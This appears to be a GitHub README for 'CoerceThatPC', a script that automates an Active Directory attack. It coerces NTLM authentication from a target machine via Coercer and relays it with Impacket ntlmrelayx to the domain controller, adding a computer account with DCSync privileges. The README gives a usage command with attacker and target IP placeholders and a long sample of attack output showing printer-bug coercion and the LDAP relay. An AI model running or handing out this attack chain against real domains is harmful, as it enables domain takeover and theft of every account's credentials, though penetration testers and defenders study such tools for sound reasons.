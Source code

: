 # CoerceThatPC
Script to automate the exploitation of a computer object being a member of an Administrators group within Active Directory.

This script automates the process of using known credentials to coerce NTLM authentication using named pipes via the Coercer package to an attackers PC where the Impacket ntlmrelayx package relays that authentication request to the Domain Controller to add a computer account and grant it DCSync privileges. This can be used any time a computer account exists in an administrator group which I have seen in multiple different corporate domains. 

Usage: 
```
python coercethatpc.py --target-ip TARGET_IP --attacker-ip ATTACKER_IP --dc-ip DC_IP --username USERNAME --password PASSWORD
```

Example: 
```
CoerceThatPC
By: Hann1bl3L3ct3r
Script to automate the exploitation of a computer object being a member of an Administrators group within Active Directory.

[+] Starting NTLM Relay Attack 

[+] Waiting for 10 seconds to ensure ntlmrelayx is fully set up 

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /home/kali/.local/lib/python3.11/site-packages/impacket
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client RPC loaded..
[+] Protocol Attack LDAP loaded..
[+] Protocol Attack LDAPS loaded..
[+] Protocol Attack IMAP loaded..
[+] Protocol Attack IMAPS loaded..
[+] Protocol Attack SMB loaded..
[+] Protocol Attack RPC loaded..
[+] Protocol Attack DCSYNC loaded..
[+] Protocol Attack MSSQL loaded..
[+] Protocol Attack HTTP loaded..
[+] Protocol Attack HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[+] Starting coersion attack on machine 

       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target 192.168.1.5
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49697,49668,49670,49672,49680,49719,49690
[+] DCERPC port '49680' is accessible!
   [+] Successful bind to interface (12345678-1234-ABCD-EF00-0123456789AB, 1.0)!
      [!] (NO_AUTH_RECEIVED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotification(pszLocalMachine='\\192.168.1.10\x00') 
      [>] (-testing-) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotificationEx(pszLocalMachine='\\192.168.1.10\x00') 
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.1.5, attacking target ldap://192.168.1.25

```
